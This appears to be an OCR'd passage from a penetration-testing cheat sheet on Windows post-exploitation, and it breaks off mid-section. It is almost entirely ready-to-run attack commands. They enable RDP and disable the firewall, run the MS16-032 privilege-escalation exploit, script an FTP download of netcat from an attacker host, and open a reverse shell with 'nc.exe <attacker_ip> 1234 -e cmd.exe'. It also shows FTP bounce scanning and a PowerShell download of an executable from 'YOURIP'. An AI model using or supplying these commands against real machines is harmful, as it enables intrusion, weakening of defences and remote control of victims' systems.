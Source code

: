     $ net user <username>

Permissions on a folder recursively:

    $ cacls *.* /t /e /g domainname\administrator:f

tasklist or wmic process or tasklist /svc

Enable RDP access

    reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
    netsh firewall set service remoteadmin enable
    netsh firewall set service remotedesktop enable

Disable firewall

    $ netsh firewall set opmode disable

Run exploit

    C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

## Transferring files

Paste the following code to get nc in the victim:

    echo open <attacker_ip> 21> ftp.txt
    echo USER offsec>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt
    nc.exe <attacker_ip> 1234 -e cmd.exe

Bounce port sanning

    $ nc $ip 21
    220 Femitter FTP Server ready.
    USER anonymous
    331 Password required for anonymous.
    PASS foo
    230 User anonymous logged in.
    PORT 127,0,0,1,0,80
    200 Port command successful.
    LIST

Nice trick to share folders with RDP:

    $ rdesktop (ip) -r disk:share=/home/bayo/store

With powershell:

    $ powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/b.exe','C:\Users\YOURUSER\Desktop\b.exe')"

Paste the following block in a command line to get a web client:
